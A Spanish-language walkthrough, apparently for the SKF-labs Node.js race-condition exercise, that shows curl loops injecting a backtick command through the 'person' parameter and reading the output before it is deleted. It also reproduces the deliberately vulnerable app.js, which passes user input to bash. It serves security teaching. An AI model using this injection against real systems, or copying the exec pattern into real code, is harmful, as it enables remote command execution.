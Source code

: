 # Explotación y guía paso a paso de Race Condition

## Instalación 

[Laboratorio skf-labs para practicar múltiples vulnerabilidades](https://github.com/blabla1337/skf-labs)

Acción primer laboratorio (sin validación de signature)

```bash
git clone https://github.com/blabla1337/skf-labs
cd skf-labs
cd nodeJs
cd RaceCondittion
npm install
npm start
```

Acción: segundo laboratorio (con validación de signature)

```bash
cd RaceCondittion
npm install
npm start
```

Resultado: ejemplo del primer laboratorio

```bash
> racecondition@0.0.1 start
> nodemon app

[nodemon] 2.0.14
[nodemon] to restart at any time, enter `rs`
[nodemon] watching path(s): *.*
[nodemon] watching extensions: js,mjs,json
[nodemon] starting `node app.js`
Listening on port 5000...!!!
```


![Captura](./Imágenes/web_3.png)

Explicación: por `localhost:5000` tenemos este laboratorio montado

---
## Explotación 

### Race Condition con cURL

#### 1. Uso de cURL en bucles `while`

Hemos usado dos comandos `while` que ejecutan peticiones `GET` de manera continua con `curl` para provocar y observar una condición de carrera en una aplicación web:

##### Primera ventana: ejecución continua del endpoint `run`

```bash
while true; do curl -s -X GET 'http://localhost:5000/?action=run' | grep "Check this out" | html2text | xargs; done
```

- Ejecutamos repetidamente el endpoint `/` con el parámetro `action=run`.
    
- El resultado HTML se filtra con `grep` para extraer la línea que contiene `Check this out`.
    
- `html2text` convierte HTML a texto plano.
    
- `xargs` limpia los espacios y saltos de línea.
    

Este bucle queda esperando hasta que aparezca algo en `hello.txt` generado por el servidor, como por ejemplo un comando inyectado desde otro endpoint.

**Nota:** para instalar `html2text`

```bash
apt install html2text
```

##### Segunda ventana: ejecución del endpoint `validate`

```bash
while true; do curl -s -X GET 'http://localhost:5000/?person=`id`&action=validate'; done
```

- Lanzamos peticiones continuas al endpoint con `action=validate` y un parámetro `person` que contiene un comando (`id`).
    
- Esto genera dinámicamente el archivo `hello.sh`, que se ejecuta y escribe el resultado en `hello.txt`.
    

---

#### 2. Explicación completa de la Race Condition

La aplicación Node.js recibe peticiones HTTP y escribe en archivos del sistema como `hello.sh` y `hello.txt`. Al lanzar peticiones concurrentes desde dos procesos distintos, generamos una condición de carrera.

**¿Cómo funciona?**

- En una ventana, realizamos continuamente peticiones a `/?action=run`, que lee y muestra el contenido de `hello.txt`.
    
- En la otra ventana, enviamos constantemente peticiones con `action=validate` que escriben un comando (`id`) dentro de `hello.sh`, el cual luego se ejecuta escribiendo su salida en `hello.txt`.
    
- Si el tiempo entre la creación de `hello.txt` y su eliminación por `boot_clean()` es lo suficientemente largo, y la otra ventana alcanza a leer ese archivo justo en ese intervalo, logramos capturar la salida del comando antes de que se borre.
    

**Resultado observado:**

El bucle de lectura captura salidas como:

```
Check this out: uid=1000(metahumo) gid=1001(metahumo) grupos=1001(metahumo)...
```

Primero quedamos en escucha digamos con el primer bucle

![Captura](./Imágenes/terminal_1.png)

Al ejecutar, si esperamos debería salir el comando inyectado. Ya que alcanzamos la condición de carrera al visualizar un archivo que se generaba pero se borraba inmediatamente. Esto de interceptar algo justo entre que se ha creado/registrado y se va a borrar es lo que se conoce como **Race Condition**

![Captura](./Imágenes/terminal_2.png)

**Conclusión:**

Este comportamiento confirma una **condición de carrera**, donde dos procesos (crear y borrar `hello.txt`) se ejecutan sin sincronización. La ejecución concurrente nos permite ver información sensible que, en teoría, debería eliminarse antes de que sea accesible. Esta explotación demuestra cómo un atacante puede abusar del tiempo entre operaciones de escritura y limpieza para leer información crítica.

Debido a la ausencia de controles de concurrencia, el acceso simultáneo a recursos compartidos permite resultados no previstos, en este caso, una ejecución remota de comandos y su lectura. Este es un ejemplo claro y didáctico de una Race Condition explotable en aplicaciones web mal diseñadas.

La web que manejamos tiene el siguiente código `app.js` 

```js
const express = require("express");
const app = express();
const { exec } = require("child_process");
const { execSync } = require("child_process");
const fs = require("fs");

app.use(express.static(__dirname + "/static"));
app.use(express.urlencoded({ extended: true }));

app.get("/", (req, res) => {
  let hello = "";
  let action = req.query.action ? req.query.action : "run";
  if (action === "validate") {
    let person = req.query.person ? req.query.person : "Default User";
    let valid = boot_validate(person);
    if (valid == "") {
      boot_clean();
    }
  } else if (action == "reset") {
    boot_clean();
    boot_reset();
    boot_run();
  } else {
    boot_run();
    try {
      hello = fs.readFileSync("hello.txt", "utf8").toString();
    } catch (error) {
      hello = "Important hello file is missing, please reset.";
      boot_clean();
      boot_reset();
      boot_run();
    }
  }
  res.render("index.ejs", { action: action, hello: hello });
});

app.use(function (req, res) {
  res.status(404).render("404.ejs");
});

const boot_validate = (person) => {
  fs.writeFileSync("hello.sh", 'echo "' + person + '" > hello.txt');
  exec("echo 'hello.sh updated -- " + Date.now() + "' > log.txt");
  exec("echo 'hello.sh cleaned -- " + Date.now() + "' >> log.txt");
  exec("bash hello.sh");
  const valid = () => {
    return execSync(
      "sed -n '/^echo \"[A-Za-z0-9 ]*\" > hello.txt$/p' hello.sh"
    ).toString();
  };
  return valid();
};

const boot_clean = () => {
  exec(`rm hello.txt`);
};

const boot_run = () => {
  exec(`bash hello.sh`);
};

const boot_reset = () => {
  fs.writeFileSync("hello.sh", "echo 'Default User' > hello.txt");
};

const port = process.env.PORT || 5000;

app.listen(port, "0.0.0.0", () => console.log(`Listening on port ${port}...!!!`));
```

---




